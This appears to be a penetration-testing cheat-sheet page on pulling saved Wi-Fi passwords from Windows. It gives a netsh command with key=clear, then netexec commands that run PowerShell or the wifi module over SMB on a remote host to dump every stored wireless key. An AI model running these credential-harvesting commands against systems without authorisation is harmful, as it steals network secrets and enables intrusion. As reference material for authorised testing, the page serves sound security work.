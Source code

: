 # Get Wireless password from Windows CMD



```
Netsh wlan show profile name="Wi-F name" key=clear
```

For convenience, here is a batch script that will display all the saved passwords.

{% file src="../../.gitbook/assets/display-all-saved-wireless-passwords.bat" %}

Additionally, you can use netexec in order to automate showing all profiles remotely

{% code overflow="wrap" %}
```bash
netexec smb 10.123.4.21 -u tester1 -p tester1 -x "powershell -Command \"\$profiles = (netsh wlan show profiles) -match 'All User Profile' | ForEach-Object { if (\$_ -match ': (.*)\s*\$') { \$matches[1].Trim() }}; \$results = @(); foreach (\$profile in \$profiles) { if (\$profile) { \$keyContent = (netsh wlan show profile name=\\\"\$profile\\\" key=clear | Select-String -Pattern 'Key Content' | ForEach-Object { if (\$_ -match 'Key Content\s*:\s*(.*)') { \$matches[1] } }); if (\$keyContent -and \$keyContent -ne \$null) { \$results += [PSCustomObject]@{ ProfileName = \$profile; Password = \$keyContent.Trim() } } }}; \$results | Format-Table -AutoSize\""
```
{% endcode %}

Actually, turns out you can do this with the wifi module in Netexec

{% code overflow="wrap" %}
```bash
netexec smb 10.123.4.21 -u tester1 -p tester1 -M wifi
```
{% endcode %}

